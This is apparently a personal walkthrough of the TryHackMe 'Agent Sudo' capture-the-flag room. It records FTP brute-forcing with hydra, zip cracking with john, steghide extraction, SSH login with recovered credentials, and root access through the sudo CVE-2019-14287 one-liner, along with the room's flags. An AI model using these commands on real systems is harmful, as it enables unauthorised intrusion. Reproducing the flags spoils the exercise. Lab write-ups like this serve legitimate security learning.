 ### Agent Sudo ###

export IP=10.10.195.177

how many ports are open on the machine?

3
ftp ssh and http

# 2. how can you access the secret page?
user-agent
# 3. what is the agent name ?
```
used the following cmd:
curl http://$IP -H "User-Agent: C" -L 
```
Ans - chris
```

installing chrome to have a user access switcher plugin...

failed somehow idk what went wrong...zzz

used hydra and learnt how to use it(somewhat not exactly) 
ran the following cmd and found the password for chris:
root@kali:~/tryhackme/agent_sudo# hydra -l chris -P /usr/share/wordlists/rockyou.txt $IP ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-22 11:54:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.61.234:21/
[21][ftp] host: 10.10.61.234   login: chris   password: crystal
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 1 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-22 11:55:37

```


after that i logged in to the ftp and found 3 files:
2 images with.png and .jpg format and 1 txt file with hints suggesting that one of the images containes a zip file

used binwalk cutie.png to find the contents of the image

zip file has the password and used john the ripper to crack it:
found the password:alien
found a text file inside the zip file and it had the following contents:
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R

QXJlYTUx - seems like a hash

used my online tool and found the key - Area51

ran steghide on the other pic with this password and found the following file -

```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris

```
found the username: james and password:hackerrules

time to ssh................
wasted my 10 minutes doubting myself dfq
its hackerrules!
rip and tryhackme dosent want the '!' mark :/
found the user_flag:b03d975e8c92a7c04146cfa7a5a313c7

found a cve
CVE-2019-14287

ran the cmd: 
sudo -u#-1 /bin/bash

and i am root :)
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R


after hours of wasted time :) :found the proper cmd for transferring files through ssh(ik its embarissing :'(  bt cant help it)

scp Alien_autospy.jpg root@myip:/my/directory/

found a website
### https://tineye.com/search ###
foxnews link found(The hint helped and there it is....)
Filmmaker reveals how he faked infamous 'Roswell alien autopsy' footage in a London apartment
